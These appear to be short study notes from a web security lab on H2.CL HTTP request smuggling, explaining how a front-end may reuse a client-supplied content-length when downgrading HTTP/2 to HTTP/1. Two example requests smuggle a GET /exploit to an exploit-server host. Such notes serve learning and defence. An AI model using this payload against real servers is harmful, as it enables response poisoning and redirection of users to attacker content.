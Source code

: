 ## H2.CL vulnerabilities

HTTP/2 requests don't have to specify their length, during downgrading it's the front-end that performs the math and add the `Content-length` header.
However, HTTP/2 requests can also include their own `content-length` header. In this case, some front-end servers will simply reuse this value in the resulting HTTP/1 request. As a result, it may be possible to smuggle requests by injecting a misleading `content-length` header.

Front-end (HTTP/2):
```http
:method POST
:path /
:authority 0a1e004403689f4581e889fb006f00fd.web-security-academy.net
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
GET /exploit HTTP/1.1
Host: exploit-0a9400a603069f7381e188f501980089.exploit-server.net
Content-Length: 12

search=foo
```

Back-end (HTTP/1):
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /exploit HTTP/1.1
Host: exploit-0a9400a603069f7381e188f501980089.exploit-server.net
Content-Length: 12

search=foo
```
